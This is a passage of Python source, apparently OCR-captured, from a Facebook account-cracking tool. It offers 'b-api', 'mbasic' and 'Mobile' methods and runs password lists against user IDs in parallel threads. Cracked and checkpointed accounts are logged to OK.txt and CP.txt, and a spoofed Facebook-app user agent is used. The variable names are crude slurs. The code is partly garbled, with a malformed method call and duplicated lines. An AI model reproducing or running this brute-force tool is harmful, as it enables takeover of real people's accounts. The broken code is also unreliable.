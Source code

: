        os.remove(self.apk)
       hasil(ok,cp)
      elif boy == "2" or boy == "02":
       AYAN_ARAIN('\n[•] Result OK saved to OK.txt')
       AYAN_ARAIN('[•] Result CP saved to CP.txt')
       AYAN_ARAIN('\n\tCrack Processing...\n\n');logo()
       with ThreadPoolExecutor(max_workers=25) as (_ngentot_gratis_):
        for ikeh in self.id:
         try:
          kimochi = ikeh.split('|')[0]
          _ngentot_gratis_.submit(self.__mbasic__, kimochi, bse)
         except: pass
       os.remove(self.apk)
       hasil(ok,cp)
      elif boy == "3" or boy == "03":
       AYAN_ARAIN('\nHasil RESULTS Tersimpan Di > multiresuts.txt')
       AYAN_ARAIN('[•] Result CP saved to CP.txt')
       AYAN_ARAIN('\n\tCrack Processing...\n\n')
       AYAN_ARAIN('\n\tCrack Processing...\n\n');logo()
       with ThreadPoolExecutor(max_workers=20) as (_ngentot_gratis_):
        for ikeh in self.id:
         try:
          kimochi = ikeh.split('|')[0]
          _ngentot_gratis_.submit(self.__mfb,__, kimochi, bse)
         except: pass
         
       os.remove(self.apk)
       hasil(ok,cp)
      else:
       exit()
     AYAN_ARAIN('\n01.) Metode b-api ')
     AYAN_ARAIN('02.) Metode mbasic ')
     AYAN_ARAIN('03.) Metode Mobile ')
     _sempak_(pwek.split(','))
     break
  elif _jokowi_kontol_ in ('Y', 'y'):
   print (' [*]=============================================')
   AYAN_ARAIN('\n\t------[ Method Crack ]-----')
   print (' [*]=============================================')
   AYAN_ARAIN(' [1] AS Method 1 ')
   AYAN_ARAIN(' [2] AS Method 2  [ Pro ]')
   AYAN_ARAIN(' [3] AS Method 3   ')
   print (' [*]=============================================')
   self.__pler__()
  else:
   exit()
  return
 def __api__(self, user, _sempak_):
  global ok,cp,loop
  sys.stdout.write('\r\033[1;97m [AS] %s/%s  \033[1;92mOK-:%s / \033[1;91mCP-:%s'%(loop,len(self.id),len(ok),len(cp))),
  sys.stdout.flush()
  for pw in _sempak_:
   pw = pw.lower()
   try: os.mkdir('')
   except: pass
   try:
    ua_xiaomi = AYAN('agent.txt', 'r').read()
   except (KeyError, IOError):
    ua_xiaomi  = 'Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'